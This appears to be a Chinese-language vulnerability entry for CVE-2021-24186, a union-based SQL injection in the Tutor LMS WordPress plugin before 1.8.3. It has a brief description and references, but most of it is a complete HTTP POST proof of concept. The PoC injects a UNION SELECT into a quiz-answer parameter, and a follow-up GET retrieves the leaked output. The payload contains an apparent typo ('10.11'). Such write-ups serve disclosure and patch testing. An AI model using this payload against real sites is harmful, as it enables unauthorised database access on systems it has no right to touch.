 # WordPress插件Tutor LMS SQL注入漏洞（CVE-2021-24186）

Tutor LMS – eLearning and online course solution是WordPress的一个插件，可以创建具有挑战性和趣味性的测验，互动课程，功能强大的报告和统计信息。Tutor LMS – eLearning and online course solution < 1.8.3 的 tutor_answering_quiz_question/get_answer_by_id两个函数对student字段处理不当，导致了基于联合查询的SQL注入漏洞。

影响版本：

Tutor LMS – eLearning and online course solution < 1.8.3

PoC：

```
POST /courses/first-class/tutor_quiz/test/ HTTP/1.1
Host: [URL]
Content-Length: 413
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: [URL]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: [URL]
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [COOKIES]
Connection: close

_wpnonce=[REPLACE_WITH_VALID_NONCE]&_wp_http_referer=%2Fcourses%2Ffirst-class%2Ftutor_quiz%2Ftest%2F&attempt_id=1&tutor_action=tutor_answering_quiz_question&attempt%5B1%5D%5Bquiz_question_ids%5D%5B%5D=&attempt%5B1%5D%5Bquiz_question%5D%5B1%5D=1 UNION select 1,2,3,version(),5,6,7,8,9,10.11,12,13;--&attempt%5B1%5D%5Bquiz_question_ids%5D%5B%5D=2&attempt%5B1%5D%5Bquiz_question%5D%5B2%5D=5&quiz_answer_submit_btn=quiz_answer_submit
Then send a GET request to

http://[URL]/dashboard/my-quiz-attempts/attempts-details/?attempt_id=1
```

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2021-24186
* https://mp.weixin.qq.com/s/WdaOrEf7l7H0URhDyXjPpw
* https://wpscan.com/vulnerability/5f5c0c6c-6f76-4366-b590-0aab557f8c60